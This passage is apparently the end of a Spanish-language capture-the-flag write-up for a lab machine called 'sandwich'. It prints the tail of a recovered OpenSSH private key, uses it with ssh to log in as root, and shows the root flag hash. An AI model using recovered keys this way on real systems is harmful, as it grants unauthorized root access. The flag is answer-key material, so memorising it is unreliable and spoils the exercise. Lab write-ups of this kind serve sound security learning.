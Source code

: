 ```
8O0FDDLAMja/O9f2ULatRHYeVkew/A36+JJyLrwjkL9oIbYZSSsNm7kr80SbvC06pxMsT2
gsHksMsMqfjlEEjl+bAAABAQC441IN9GF2S8t2GzwMQtrf+DuaAqUuBHsdQ1oL4Z+oXxXV
81nEB2tpzNcoFXdr5YCJoa7wqcsHWJ17efSn75V5eKupQcw5R3qFObUoWOHwXqHMr3MAj5
nupQo7YqWmXVYZU6qqob6BSWK7QGSMhH3lTOpr0Tmzyj+VeUJ5jpTH8yupsbYdvoufPb4w
a917NJxEatNyH/Pb1+qF9ZaK/QkYEuWO63pIBnQsrwIPWzG3XhLQvUsyKuzaqt/GaidY6o
sBV4e/57CPx4/2orOPIUkJrojO39st9suBnBhWv0RB4CYeiFOFqJHg4lAHc89uh7/1FhfJ
qH8/93WDPQzLb1EnAAABAQDmOx0PEyd1L50bZcf/yBPTgu/E3hhJsn2EkjKNciQvf0XMqo
bp3xB7eSMtB2tPmlsJdKQ0pmuX1b5/Mxf5377cLVHtGefkqPH1irZMIUupJJybwQDvv1TE
I7nS3nsGgro0LxFegq4lNK/J0hOxdr0AzYCA0V1URBAc7F1yeIVsfw5agUBctTIETh4vb2
qbXz8zkaUCs3OxD+29tm759C9VV06EghvPGsNLQCNxhUJQADl+alhof4JLgaNsGSAjD0+E
BbrBjxfJ/Thc+/TRnUgi02VXBvEN3lEPPSykgnkrH05sJy3bkkypcSzrhu56I8xH2JNktD
KI7CKEYAOb49G7AAABAQDjtfviGpDjQvFu/a3ftuJTO0jOfMi0KUC4D8gtX0RuLX9kx4en
99te7snBHk667wwOWg1Obo4OKuVQPbI9GpxfP8ExnSBCj7ul6pHTGrHYoKDXFkGE38LdTx
vMEEyqhFiqNIv9iJUMfrZf4WcOWTl+rtJus3xz8yEjxJ+8CXNb3DSGD2AN2my4gmXuSJec
Q3j0qy5I0191AjSaySmfOvFTdXk/2CHq2BiPDyrvZBoJC1/Uo34IJzv7KniWETOn1pXQyW
5e4Z60iiIePJTiXy32FP1CkMfFCqrnCf6vUh7u5/cogU9EFCFxfEcAagP0OMU3pu8stWpw
r1QiwDaFhL5nAAAADXJvb3RAc2FuZHdpY2gBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Ahora vamos a conectarnos por `SSH` con dicha clave.

```shell
chmod 600 id_rsa
ssh -i id_rsa root@<IP>
```

Info:

```
Linux sandwich 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 30 20:14:35 2025 from 192.168.1.181
root@sandwich:~# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` del `root`.

> root.txt

```
a4e728e6ffc502beea7570a75348af44
```
